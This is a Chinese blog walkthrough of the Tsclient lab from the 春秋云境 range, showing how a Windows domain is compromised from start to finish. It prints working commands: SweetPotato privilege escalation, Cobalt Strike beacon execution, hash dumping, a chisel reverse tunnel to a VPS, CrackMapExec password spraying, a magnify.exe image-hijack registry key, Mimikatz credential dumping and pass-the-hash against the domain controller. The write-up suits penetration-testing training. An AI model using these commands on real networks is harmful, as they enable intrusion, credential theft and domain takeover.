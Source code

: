 ```yaml
---
title: 春秋云境-Tsclient
subtitle:
date: 2025-03-14T14:54:23+08:00
slug: dea3a3c
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - 春秋云境
categories:
  - 春秋云境
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

访问发现是Windows主机，但并没有什么有用的信息

![](images/9226450074ff5fe86d440023bee438c2.png)



![](images/9a5a5f3b505e880a061b8beb9cb67e6e.png)
fscan开扫，发现m ssql数据库用户名和密码，MDUT拿到Shell。

![](images/70bafd8876ceab5b38ce3b73f4fd15d1.png)
执行whoami查看用户，发现是sqlserver，权限较低。

![](images/41c5e43947475ec601b8f47f3087e1f4.png)
尝试利用Sweetpotato进行提权。

![](images/9e92ad40940c2791d0decca455d50e5a.png)
命令执行 C:/Users/Public/SweetPotato.exe -a "whoami"

![](images/19793dc78c31307c764a69dba50ba21c.png)
发现可以正常执行，上传cs马，执行cs马

```
C:/Users/Public/SweetPotato.exe -a "C:/Users/Public/beacon_x64.exe"
```



![](images/be593718352129c88d17556a2935f4da.png)cs成功上线

![](images/f23ce3745e2757e875150fbc6c667ebb.png)
执行命令，得到flag1

```
shell type C:\Users\Administrator\flag\flag01.txt
```



![](images/448b26a2fc9c76077e5c18a77792db2e.png)

```
hashdump
```

```
[03/08 16:09:01] beacon> hashdump
[03/08 16:09:01] [*] Tasked beacon to dump hashes
[03/08 16:09:59] [+] host called home, sent: 82541 bytes
[03/08 16:10:01] [+] received password hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2caf35bb4c5059a3d50599844e2b9b1f:::
cxcx:1013:aad3b435b51404eeaad3b435b51404ee:72d98c440b25ce7b05d81233044c020c:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
John:1008:aad3b435b51404eeaad3b435b51404ee:eec9381b043f098b011be51622282027:::
```

查看网络连接等

```
shell netstat -ano
```



![](images/79888364eb73aae0090bc62bc7a4f4e1.png)
看到3389端口指向`172.22.8.31`另一个主机
查看在线用户

```
shell quser || qwinst
```



![](images/7b03f99152439c5df719fd52401c4b6b.png)
发现john用户，可以cs注入进程进行上线。

![](images/d88bcd0245f711a689e037faad597c33.png)
成功上线John

![](images/6bb36f84fc16aba7f4b50344a16b494a.png)
查看共享资源，列出目录文件

```
shell net use
shell dir \\tsclient\c
```



![](images/3bdd3725a5d57a1b4e3d188453adf099.png)
读取文件，拿到账号密码，并提醒映像劫持

```
shell type \\tsclient\c\credential.txt
```

```
03/08 16:20:22] beacon> shell type \\tsclient\c\credential.txt
[03/08 16:20:23] [*] Tasked beacon to run: type \\tsclient\c\credential.txt
[03/08 16:21:11] [+] host called home, sent: 63 bytes
[03/08 16:21:11] [+] received output:
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#

Do you know how to hijack Image?
```

上传`chisel.exe`和`fscan`，扫描内网并进行内网穿透
先进行fscan扫描内网

```
shell C:\\Users\\Public\\t1ng\\fscan.exe -h 172.22.8.0/24
```

```
[03/08 16:32:37] beacon> shell C:\\Users\\Public\\fscan.exe -h 172.22.8.0/24
[03/08 16:32:38] [*] Tasked beacon to run: C:\\Users\\Public\\fscan.exe -h 172.22.8.0/24
[03/08 16:33:15] [+] host called home, sent: 82 bytes
[03/08 16:33:25] [+] received output:

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
(icmp) Target 172.22.8.18     is alive
(icmp) Target 172.22.8.15     is alive
(icmp) Target 172.22.8.31     is alive
(icmp) Target 172.22.8.46     is alive
[*] Icmp alive hosts len is: 4
172.22.8.46:445 open
172.22.8.18:1433 open
172.22.8.31:445 open
172.22.8.15:445 open
172.22.8.18:445 open
172.22.8.46:139 open
172.22.8.15:139 open
172.22.8.31:139 open
172.22.8.15:88 open
172.22.8.46:135 open
172.22.8.31:135 open
172.22.8.18:139 open
172.22.8.15:135 open
172.22.8.18:135 open
172.22.8.46:80 open
172.22.8.18:80 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo 
[*]172.22.8.46
   [->]WIN2016
   [->]172.22.8.46
[*] NetBios 172.22.8.15     [+] DC:XIAORANG\DC01           
[*] NetInfo 
[*]172.22.8.18
   [->]WIN-WEB
   [->]172.22.8.18
   [->]2001:0:348b:fb58:3430:be2:d89c:72b2
[*] WebTitle http://172.22.8.18        code:200 len:703    title:IIS Windows Server
[*] NetInfo 
[*]172.22.8.31
   [->]WIN19-CLIENT
   [->]172.22.8.31
[*] NetInfo 
[*]172.22.8.15
   [->]DC01
   [->]172.22.8.15
[*] NetBios 172.22.8.31     XIAORANG\WIN19-CLIENT         
[*] NetBios 172.22.8.46     WIN2016.xiaorang.lab                Windows Server 2016 Datacenter 14393
[*] WebTitle http://172.22.8.46        code:200 len:703    title:IIS Windows Server
[+] mssql 172.22.8.18:1433:sa 1qaz!QAZ
```

`chisel`内网穿透

```
靶机
shell C:\\Users\\Public\\chisel.exe client vps_ip:9002 R:0.0.0.0:9003:socks

vps
./chisel server -p 9002 --reverse
```

利用cme进行密码喷射

```
proxychains4 -q crackmapexec smb 172.22.8.0/24 -u 'Aldrich' -p 'Ald@rLMWuy7Z!#'
```



![](images/02e6886ee760160c87849c925d3218c8.png)
发现可以登录`172.22.8.46`主机，但是会显示密码过期，使用`smbpasswd`修改密码
[Lex-Case/Impacket: Impacket is a collection of Python classes for working with network protocols.](https://github.com/Lex-Case/Impacket/tree/master)

```
proxychains4 -q python3 smbpasswd.py xiaorang.lab/Aldrich:'Ald@rLMWuy7Z!#'@172.22.8.46 -newpass 'QWERqwer1234'
```



![](images/83f17f9a75e9b9728c53d436197877f0.png)
RDP远程桌面连接

```
proxychains4 rdesktop 172.22.8.46 -u Aldrich -d xiaorang.lab -p 'QWERqwer1234' -r disk:share=/home/kali/Desktop/tmp
```



![](images/62d5e47ec79406a42c2e6e29100a880a.png)

映像劫持，利用放大镜提权
[映像劫持的几种利用方式 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/321211.html)

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```



![](images/5aa6c8fcc38be58e66ac5f472bdacdb4.png)
开始，锁定

![](images/8dcfc0a28c64e2fda7f6a5a8297f82f9.png)
点击放大镜

![](images/c1c5d44ede8c677c4010c68f4971f4a2.png)

![](images/43ae04d7128b1df7c451a202277ff99e.png)
成功提权，读flag02

```
type C:\User\Administrator\flag\flag02.txt
```



![](images/feff7846d15fa619bb16a8660b525cb5.png)
尝试查看主机是否出网，

![](images/6be329c8f1ddbc9687e9c609491a6486.png)
 上传`mimikatz`，同样位置执行

 ```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
 ```

拿到用户名和NTML哈希，哈希传递

![](images/366b773d340839607a2191e9bc01347f.png)
拿PTH打DC

```
proxychains4 crackmapexec smb 172.22.8.15 -u WIN2016$ -H b5a0472a0c4933f0d50b7c499d267e0f -d xiaorang -x "type C:\Users\Administrator\flag\flag03.txt"
```



![](images/784de068039ffc9e1edaeaa809d34014.png)
